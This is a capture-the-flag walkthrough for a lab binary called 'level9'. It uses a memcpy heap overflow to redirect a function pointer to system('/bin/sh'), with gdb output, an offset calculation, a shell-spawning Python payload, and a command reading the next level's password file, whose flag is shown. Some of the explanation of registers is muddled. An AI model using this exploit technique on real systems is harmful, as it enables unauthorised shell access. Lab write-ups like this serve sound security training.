 # Walkthrough

**Main** : 
The vulnerability lies in the fact that the memcpy function can be used to overwrite memory beyond the bounds of this->buffer.
Exploit Plan:

The goal is to overwrite a function pointer in memory with the address of the system function and then trigger that function pointer to execute system("/bin/sh") to spawn a shell.

The main idea behind the exploitation of the `level9` program is to modify the `eax` register of the `setAnnotation` method (the return value) in such a way that when the method returns, it doesn't return to its intended caller but instead goes to the address of the `system` function with `/bin/sh` as an argument.

The `setAnnotation` method uses `memcpy` without proper bounds checking, allowing  to overflow the buffer and potentially overwrite memory beyond it.

**Process**:  
>   There are need to following components for the exploit:
>   Address of the `system` function 
>   Offset to reach the return address of the setAnnotation method (108 bytes).
>   Address of `eax` register when the method returns (0x0804a00c).
>   Payload


![Alt alloc](alloc.png)

## Address of system 


```
(gdb) break main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9 

Breakpoint 1, 0x080485f8 in main ()
(gdb) info address system
Symbol "system" is at 0xb7d86060 in a file compiled without debugging.

$ 
```



## Offset
```
`Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers eax
eax            0x41366441	1094083649
(gdb) 
```

**offset `0x41366441` = 108**  

## Address of `eax` register
```
Breakpoint 4 at 0x804867c
(gdb) run 'AAAA'
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 4, 0x0804867c in main ()
(gdb)  x $eax
0x804a00c:	0x41414141

```

## Payload
```
  $> ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')

  $ cat /home/user/bonus0/.pass
  f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

  ```
